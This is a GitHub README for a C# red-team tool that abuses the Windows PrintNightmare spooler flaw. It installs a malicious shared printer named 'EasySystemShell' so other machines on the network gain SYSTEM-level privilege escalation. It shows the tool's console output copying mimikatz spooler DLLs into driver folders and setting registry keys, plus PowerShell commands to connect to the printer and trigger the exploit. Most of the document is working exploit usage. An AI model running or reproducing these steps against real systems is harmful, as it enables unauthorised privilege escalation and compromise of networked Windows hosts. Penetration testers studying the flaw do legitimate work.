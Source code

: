 # DeployPrinterNightmare
C# tool for installing a shared network printer abusing the PrinterNightmare bug to allow other network machines easy privesc!

Discovered and demonstraited by the one and only [Benjamin Delpy]("https://twitter.com/gentilkiwi")

```
C:\Users\Flangvik\Desktop>FakePrinter.exe 32mimispool.dll 64mimispool.dll EasySystemShell
[<3] @Flangvik - TrustedSec
[+] Copying C:\Windows\system32\mscms.dll to C:\Windows\system32\spool\drivers\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 64mimispool.dll to C:\Windows\system32\spool\drivers\x64\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Copying 32mimispool.dll to C:\Windows\system32\spool\drivers\W32X86\3\6cfbaf26f4c64131896df8a522546e9c.dll
[+] Adding printer driver => Generic / Text Only!
[+] Adding printer => EasySystemShell!
[+] Setting 64-bit Registry key
[+] Setting 32-bit Registry key
[+] Setting '*' Registry key
```
You can then reach the EasySystemShell printer from the same network by hitting the computer it was installed on using explorer (Go to \\\\printer-installed-host\ in explorer, click the printer and install) or using PowerShell

```
$serverName  = 'printer-installed-host'
$printerName = 'EasySystemShell'
 
$fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
 
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName
```

# Credits and ressources

*  @shreedee => https://github.com/shreedee/EVOPrinter/blob/master/printerDriver/SpoolerHelper.cs
*  [Benjamin Delpy]("https://twitter.com/gentilkiwi") => https://twitter.com/gentilkiwi/status/1420896231648288772
* https://pentestlab.blog/2021/08/02/universal-privilege-escalation-and-persistence-printer/
* https://docs.microsoft.com/en-us/windows/win32/printdocs/addprinterdriverex
* https://github.com/freefirex